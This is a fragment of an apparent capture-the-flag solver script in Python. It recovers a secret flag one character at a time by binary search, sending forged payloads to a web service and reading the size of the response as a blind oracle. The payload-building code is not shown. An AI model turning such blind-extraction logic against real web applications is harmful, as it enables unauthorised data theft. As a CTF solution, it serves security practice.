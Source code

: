 ```python
    p.status(payload)
    notes = parse(r.content)
    return notes


def get_char_dichotomie(flag, s, p, p2):
    (a, b) = (33, 126)
    while a<=b:
        val = (a+b) // 2
        p.status('{}{}'.format(flag, chr(val)))

        payload1, payload2 = forge_payloads(val, flag)
        notes = get_notes(payload1, s, p2)
        if len(notes) > 1000:
            return chr(val)

        notes = get_notes(payload2, s, p2)
        if len(notes) > 1000:
            a = val + 1
        else:
            b = val - 1


def bruteforce(flag, s, p, p2):
    char = get_char_dichotomie(flag, s, p, p2)
    if char is None:
        return flag, None
    if char == '}':
        return flag + char, True
    return flag + char, False


def main():
    s = requests.session()
    flag = ''
    is_end = False
    with log.progress('flag') as p:
        with log.progress('payload') as p2:
            while is_end != True:
                flag, is_end = bruteforce(flag, s, p, p2)
                if is_end is not None:
                    continue
                p.failure(flag)
                return flag
            p.success(flag)
    return flag


def display_time(delay):
    m, s = divmod(delay, 60)
    m, s = int(m), int(s)
    if m != 0:
        return '{:02d} minutes {:02d} seconds'.format(m, s)
    return '{:02d} seconds'.format(s)


if __name__ == '__main__':
    start = time.time()
    main()
    disp = display_time(time.time()-start)
    print('[*] Solving time: {}'.format(disp))

```